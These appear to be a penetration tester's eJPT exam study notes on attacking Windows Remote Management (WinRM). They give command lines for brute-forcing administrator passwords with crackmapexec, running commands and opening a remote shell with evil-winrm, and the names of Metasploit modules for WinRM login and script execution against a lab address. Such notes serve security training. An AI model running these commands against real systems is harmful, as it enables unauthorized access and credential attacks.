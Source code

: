 ## WinRM - p5985 and 5986 (HTTPS)

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

Windows remote management protocol enables the connection between Windows systems using the HTTP protocol.

### crackmapexec
```
crackmapexec winrm 10.10.10.1 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_password.txt
```
It is used to forcefully access the service and execute commands using user credentials.
```
crackmapexec winrm 10.10.10.1 -u administrator -p tinkerbell -x “whoami”
```
### evil-winrm.rb
```
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.10.10.1
```
It is used to obtain a remote shell on the target system.

### Metasploit

Meterpreter session.
```
search winrm_script_exec
set FORCE_VBS true
```
Other useful modules.
```
search winrm_auth_methods
search winrm_login
search winrm_cmd
```
